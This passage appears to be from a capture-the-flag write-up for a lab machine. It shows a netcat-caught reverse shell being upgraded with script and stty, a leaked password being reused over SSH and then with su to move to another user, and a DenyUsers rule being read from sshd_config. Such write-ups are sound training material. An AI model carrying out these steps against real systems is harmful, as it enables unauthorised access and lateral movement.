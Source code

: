 I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) using the `script` / `stty` technique:

```

frank@inject:/$ script /dev/null -c bash\
Script started, file is /dev/null 
frank@inject:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
frank@inject:/$ 

```

## Shell as phil

With the file read in the website I already found a password, “DocPhillovestoInject123”. That password didn’t work for SSH as phil:

```

oxdf@hacky$ sshpass -p 'DocPhillovestoInject123' ssh phil@10.10.11.204
Permission denied, please try again.

```

But it does work to `su` as phil:

```

frank@inject:~$ su - phil
Password: 
phil@inject:~$

```

So why can’t phil connect over SSH? They are explicitly denied in the SSHd config (using `grep -v ^#` to remove lines that start with a comment and `grep .` to select non-blank lines):

```

phil@inject:~$ cat /etc/ssh/sshd_config|grep -v ^# | grep .
Include /etc/ssh/sshd_config.d/*.conf
DenyUsers phil
ChallengeResponseAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem       sftp    /usr/lib/openssh/sftp-server

```
